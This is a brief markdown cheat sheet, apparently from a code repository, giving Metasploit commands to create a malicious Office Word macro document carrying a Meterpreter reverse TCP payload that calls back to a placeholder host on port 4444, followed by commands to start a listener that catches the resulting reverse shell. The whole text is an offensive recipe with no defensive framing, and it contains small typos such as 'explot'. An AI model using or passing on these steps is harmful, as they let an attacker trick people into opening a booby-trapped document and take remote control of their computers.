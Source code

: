 ## Create Macro Exploit

```sh
msfconsole
set payload windows/meterpreter/reverse_tcp
use exploit/multi/fileformat/office_word_macro
set LHOST CONNECTION_IP
set LPORT 4444
show options
exploit
```

## Listen reverse shell
```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST CONNECTION_IP
SET LPORT 4444
show options
explot
```
